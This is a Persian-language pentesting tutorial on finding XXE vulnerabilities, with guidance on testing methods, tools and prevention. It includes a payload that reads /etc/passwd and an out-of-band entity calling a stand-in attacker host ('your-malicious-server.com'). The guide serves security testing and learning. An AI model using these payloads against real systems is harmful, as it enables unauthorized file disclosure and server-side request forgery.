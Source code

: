 # XXE

آسیب‌پذیری XXE (XML External Entity) زمانی رخ می‌دهد که یک برنامه وب ورودی‌های XML را بدون محدودیت روی موجودیت‌های خارجی (External Entities) پردازش کند. این آسیب‌پذیری می‌تواند منجر به افشای اطلاعات حساس، اجرای کد از راه دور، حملات SSRF و حتی Denial of Service شود.

مراحل و روش‌های کشف XXE
1. شناسایی نقاطی که ورودی XML دریافت می‌کنند
ابتدا باید بخش‌هایی از وب‌سایت یا API که ورودی XML می‌گیرند (مثلاً SOAP، REST با payload XML، آپلود فایل‌های XML و ...) را پیدا کنید.

2. تست دستی با تزریق موجودیت خارجی (External Entity)
یک فایل XML دستکاری شده می‌سازید که در آن یک موجودیت خارجی تعریف شده است. نمونه ساده:

xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
این XML را به سرور ارسال کنید (مثلاً در درخواست POST).

اگر محتوای فایل /etc/passwd یا هر فایل محلی دیگری در پاسخ برگشت داده شود، یعنی آسیب‌پذیری XXE وجود دارد.

3. تست با موجودیت خارجی به سمت سرور مهاجم (Out-of-Band)
موجودیت خارجی را به URL سرور خود (که کنترلش را دارید) ارجاع دهید:

xml
<!ENTITY xxe SYSTEM "http://your-malicious-server.com/evil">
سپس با بررسی لاگ‌های سرور خود می‌توانید بفهمید که سرور هدف درخواست به URL شما ارسال کرده است یا خیر. این روش برای شناسایی Blind XXE کاربرد دارد.

4. بررسی پیام‌های خطا و رفتار سرور
گاهی اوقات سرور با خطاهای XML یا پیام‌هایی که حاوی اطلاعات حساس است پاسخ می‌دهد. این پیام‌ها می‌توانند نشانه وجود XXE باشند.

5. استفاده از ابزارهای خودکار
ابزارهایی مثل Burp Suite (با افزونه‌های XXE)، OWASP ZAP و اسکنرهای تخصصی XXE می‌توانند به صورت خودکار ورودی‌های XML را اسکن و آسیب‌پذیری را شناسایی کنند.

6. بررسی کد منبع (در صورت دسترسی)
اگر به کد برنامه دسترسی دارید، بررسی کنید که آیا پارسر XML با تنظیمات امن (غیرفعال کردن DTD، موجودیت‌های خارجی و ...) استفاده شده است یا خیر.

نکات مهم
آسیب‌پذیری XXE زمانی رخ می‌دهد که پارسر XML اجازه بارگذاری DTD و موجودیت‌های خارجی را بدهد.

ساده‌ترین راه جلوگیری، غیرفعال کردن DTD و موجودیت‌های خارجی در پارسر XML است.

XXE می‌تواند منجر به افشای فایل‌های محلی، حملات SSRF و حتی اجرای کد از راه دور شود.

منابع و مطالعه بیشتر
راورو - معرفی و کشف XXE

گروه مهندسین فناوری نوین۵۲ - آسیب‌پذیری XXE

بلاگ گروه لیان - شناسایی و اکسپلویت XXE

آموزش ویدئویی شکار XXE

خلاصه
برای پیدا کردن XXE:

نقاط ورودی XML را شناسایی کنید.

یک فایل XML حاوی موجودیت خارجی (مثلاً خواندن فایل محلی یا ارجاع به URL خارجی) بسازید.

آن را به سرور ارسال کنید و پاسخ یا لاگ‌های سرور را بررسی کنید.

از ابزارهای اتوماتیک برای اسکن کمک بگیرید.

در صورت مشاهده اجرای کد یا افشای اطلاعات، آسیب‌پذیری تایید می‌شود.

این روش‌ها به شما کمک می‌کند تا به صورت دقیق و جامع آسیب‌پذیری XXE را در تست نفوذ وب شناسایی کنید.
